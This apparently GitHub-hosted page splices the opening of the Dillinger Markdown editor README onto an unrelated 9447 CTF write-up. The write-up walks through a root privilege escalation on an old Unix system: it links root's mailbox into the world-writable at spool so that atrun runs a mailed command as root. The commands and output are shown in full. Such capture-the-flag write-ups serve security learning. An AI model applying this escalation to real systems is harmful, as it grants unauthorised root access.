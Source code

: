 # Dillinger

Dillinger is a cloud-enabled, mobile-ready, offline-storage, AngularJS powered HTML5 Markdown editor.

  - Type some Markdown on the left
  - See HTML in the right
  - Magic

Markdown is a lightweight markup language based on the formatting conventions that people naturally use in email.  As [John Gruber] writes on the [Markdown site] [1]:

> The overriding design goal for Markdown's
> formatting syntax is to make it as readable
> as possible. The idea is that a
> Markdown-formatted document should be
> publishable as-is, as plain text, without
> looking like it's been marked up with tags
> or formatting instructions.
```sh
$ npm i -g gulp
```

```sh
$ git clone [git-repo-url] dillinger
$ cd dillinger
$ npm i -d
$ mkdir -p public/files/{md,html,pdf}
$ gulp build --prod
$ NODE_ENV=production node app
```




#9447 CTF - johnlions (writeup)


####Description:

 - johnlions (250pts)
 - telnet johnlions.9447.plumbing
 - login ctf


The first thing done was to list the content of current dir. This revealed the precious flag, but as expected I couln't read it.  
```
$ ls -la
total 134
drwxrwxr-x 9 root      272 Sep 22 06:38 .
drwxrwxr-x 9 root      272 Sep 22 06:38 ..
drwxrwxr-x 2 bin      2512 Sep 22 06:38 bin
-rwxr-xr-x 1 bin      8986 Jun  8  1979 boot
drwxrwxr-x 2 bin       208 Sep 22 05:56 dev
drwxrwxr-x 2 bin       336 Sep 22 06:24 etc
-r-------- 1 root       28 Sep 22 06:25 flag
drwxrwxr-x 2 bin       320 Sep 22 05:33 lib
drwxrwxr-x 2 root       96 Sep 22 05:46 mdec
drwxrwxrwx 2 root      112 Sep 22 06:36 tmp
-rwxr-xr-x 1 root    51982 Jun  8  1979 unix
drwxrwxr-x12 root      208 Sep 22 05:58 usr
$ cat flag
cat: can't open flag
```

The next thing done was to look for suid binaries and see if some of them can be used to 
escalate privileges.

```
$ find / -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
```


The /usr/lib/atrun seemed an interesting vector, it runs jobs queued by 'at'. This was abused in the past to execute command as root. The attack is possible because the /usr/spool/at is writable by anyone. What is needed is to create a file in a specific format in this directory and wait to atrun execute it. We can create a link to a file owned by root and try to inject our commands there.

#### The attack

Create the link
```
$ ln /usr/spool/mail/root /usr/spool/at/88.265.0824.21
```

Now send a mail to root with the command you want to execute
```
$ mail root
chmod 777 /flag
```

Wait and see the result
```
$ ls -la /flag
-rwxrwxrwx 1 root       28 Sep 22 06:25 /flag
$ cat /flag
9447{h4cking_like_its_1979}
```

###The flag: 9447{h4cking_like_its_1979}
